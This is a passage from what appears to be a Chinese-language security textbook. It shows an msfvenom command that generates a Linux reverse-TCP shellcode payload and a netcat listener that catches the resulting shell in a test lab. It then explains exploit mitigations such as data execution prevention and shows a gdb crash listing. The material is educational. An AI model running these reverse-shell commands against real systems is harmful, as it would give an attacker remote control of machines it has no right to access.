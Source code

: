 ```
# msfvenom -p linux/x64/shell_reverse_tcp -f raw LHOST=172.21.21.1\
           LPORT=4444 > msf_shellcode.bin
```

`msfvenom` 工具默认将 shell 代码输出到标准输出，因此你需要将其管道传输到一个文件中；否则，它只会打印到控制台并丢失。我们还需要指定 `-f raw` 标志，以将 shell 代码输出为原始二进制 Blob。也有其他潜在选项。例如，你可以将 shell 代码输出到一个小的 .*elf* 可执行文件中，直接运行进行测试。由于我们有测试环境，所以无需这样做。

##### **执行有效载荷**

为了执行有效载荷，我们需要设置一个在端口 4444 上监听的 `netcat` 实例（例如，`nc -l 4444`）。当连接建立时，可能不会看到提示符。然而，输入 `id` 命令应该会回显结果：

```
$ nc -l 4444
# Wait for connection
id
uid=1000(user) gid=1000(user) groups=1000(user)
```

结果显示 shell 成功在运行 shell 代码的系统上执行了 `id` 命令，并打印了系统的用户和组 ID。你可以在 Windows、macOS 甚至 Solaris 上使用类似的有效载荷。自己探索 `msfvenom` 中的各种选项可能会很有价值。

### **内存破坏利用缓解措施**

在《利用内存破坏漏洞》中的第 246 页，我提到了利用防护措施，以及它们如何使利用内存漏洞变得困难。事实是，由于编译器（以及生成的应用程序）和操作系统中添加了利用防护措施，在大多数现代平台上，利用内存破坏漏洞可能变得相当复杂。

安全漏洞似乎是软件开发中不可避免的一部分，就像大量使用内存不安全语言编写的源代码，这些代码长时间未得到更新。因此，内存破坏漏洞不太可能在一夜之间消失。

开发者没有尝试修复所有这些漏洞，而是实施了巧妙的技术来减轻已知安全漏洞的影响。具体而言，这些技术旨在使内存破坏漏洞的利用变得困难，或者理想情况下使其变得不可能。在本节中，我将描述一些在当代平台和开发工具中使用的利用防护技术，这些技术使攻击者更难利用这些漏洞。

#### ***数据执行保护***

正如你之前看到的，开发利用程序的主要目标之一是获得对指令指针的控制。在我之前的解释中，我略过了将 shell 代码放入内存并执行时可能遇到的问题。在现代平台上，由于*数据执行保护（DEP）*或*不执行（NX）*的防护措施，你不太可能像之前那样轻松地执行任意的 shell 代码。

DEP（数据执行保护）尝试通过要求操作系统特别分配可执行指令的内存来缓解内存破坏的利用。这需要处理器支持，使得如果进程试图在未标记为可执行的地址处执行内存，处理器会触发错误。操作系统随后会终止该进程以防止进一步执行。

执行不可执行内存导致的错误可能很难察觉，并且一开始看起来会让人困惑。几乎所有平台都会将错误错误报告为 `Segmentation fault` 或 `Access violation`，即使它看起来是潜在合法的代码。你可能会误以为这个错误是指令试图访问无效内存。由于这种混淆，你可能会花时间调试代码，试图找出为什么 shell 代码没有正确执行，认为这是代码中的 bug，而实际上是触发了 DEP。例如，清单 10-20 展示了一个 DEP 崩溃的示例。

```
GNU gdb 7.7.1
(gdb) r
Starting program: /home/user/triage/dep

Program received signal SIGSEGV, Segmentation fault.
0xbffff730 in ?? ()

(gdb) x/3i $pc
=> 0xbffff730:  push   $0x2a➊
   0xbffff732:  pop    %eax
   0xbffff733:  ret
```
